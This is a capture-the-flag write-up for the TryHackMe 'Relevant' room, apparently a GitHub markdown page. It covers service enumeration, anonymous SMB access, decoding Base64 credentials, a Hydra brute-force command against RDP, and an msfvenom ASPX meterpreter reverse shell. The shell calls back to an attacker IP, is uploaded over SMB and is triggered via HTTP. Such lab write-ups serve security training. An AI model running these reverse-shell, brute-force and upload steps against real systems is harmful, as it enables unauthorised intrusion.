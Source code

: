 # TryHackMe - Relevant  
🔗 https://tryhackme.com/room/relevant  
🎯 Objective: Enumerate services, extract encoded credentials from SMB, gain access via remote execution (ASPX shell), and escalate privileges.

---

## 🖥️ Target Information

| Property     | Value                                         |
|--------------|-----------------------------------------------|
| IP Address   | 10.10.196.72                                  |
| OS           | Windows Server 2008 R2 - 2012 (IIS 10.0)      |
| Services     | HTTP (80), SMB (139/445), RDP (3389), RPC (135) |

---

## 🔍 1. Enumeration

### 🔧 Nmap
```bash
nmap -sV -O 10.10.196.72
```

### 🔧 Gobuster
```bash
gobuster dir -u http://10.10.196.72 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http
```

No useful directories found via HTTP.

---

## 📁 2. SMB Enumeration

### List shares
```bash
smbclient -L //10.10.196.72 -N
```

Found:
- `nt4wrksv` (Disk)

### Connect to share
```bash
smbclient //10.10.196.72/nt4wrksv -N
```

### Discovered inside:
- `passwords.txt` (Base64 encoded)
```text
Qm9iIC0gIVBAJCRXMHJEITEyMw==  → Bob - !P@$$W0rD!123
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk  → Bill - Juw4nnaM4n420696969!$$$
```

---

## 🔑 3. Credential Testing

### Try SMB login with user
```bash
smbclient //10.10.196.72/nt4wrksv -U 'Bob'
```

Bob: failed  
Bill: expired  

---

## 💻 4. RDP Access Attempts
```bash
xfreerdp /u:Bob /p:'!P@$$W0rD!123' /v:10.10.196.72
xfreerdp /u:Bill /p:'Juw4nnaM4n420696969!$$$' /v:10.10.196.72
```

Both failed. Bill's password is expired. Brute-force next.

---

## 🔐 5. RDP Brute Force (Hydra)
```bash
hydra -l Bob -P /usr/share/wordlists/rockyou.txt rdp://10.10.196.72
```

---

## ⚡ 6. Remote Execution via SMB & ASPX

### SMB writeable by anonymous/Dick

Create PowerShell reverse shell payload (did not work):
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.65.89",12345); ...
```

### Final payload (ASPX reverse shell)
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.65.89 LPORT=12345 -f aspx -o shell.aspx
```

Upload to SMB share:
```bash
smbclient //10.10.196.72/nt4wrksv -U anonymous
put shell.aspx
```

---

## 🧪 7. Start Listener in Metasploit

```bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 10.10.65.89
set LPORT 12345
run
```

Execute payload via HTTP:
```bash
http://10.10.196.72/nt4wrksv/shell.aspx
```

---

## 🐚 8. Post-Exploitation: Meterpreter

```bash
shell
whoami /all
```

User: `iis apppool\defaultapppool`

Group includes:
- BUILTIN\IIS_IUSRS
- NT AUTHORITY\SERVICE
- Mandatory Label\High

```bash
dir C:\Users
```

Users:
- Bob
- Administrator

---

## ✅ Summary

| Phase                  | Status                           |
|------------------------|----------------------------------|
| Enumeration             | ✅ nmap + gobuster               |
| SMB Investigation       | ✅ found passwords.txt           |
| RDP / SMB Access        | ⛔ RDP failed, SMB write found   |
| Initial Foothold        | ✅ ASPX reverse shell executed   |
| Meterpreter Shell       | ✅ IIS AppPool shell gained      |

🔜 Next Step:
- Local privilege escalation
- Explore C:\Users\Bob or Administrator
- Dump credentials or escalate to SYSTEM

